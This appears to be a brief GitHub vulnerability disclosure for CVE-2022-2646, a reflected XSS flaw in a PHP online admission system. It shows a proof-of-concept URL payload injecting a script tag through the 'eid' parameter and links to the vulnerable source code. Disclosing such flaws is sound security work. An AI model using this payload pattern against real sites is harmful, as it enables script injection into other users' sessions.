 # Student-Admission-Reflection Xss

# CVE-2022-2646

### Xss Payload

```
index.php?a=edit&eid=8</h3><script>alert(1)</script>
```

![image](https://user-images.githubusercontent.com/72059221/182757706-14a19be6-c7b9-4dd6-b181-7ea452ec13d2.png)

#### Code

![image](https://user-images.githubusercontent.com/72059221/182757859-313f5730-5ff0-489b-b9ef-a56f1846c0b4.png)

## Code Download

https://www.sourcecodester.com/php/15514/online-admission-system-php-and-mysql.html
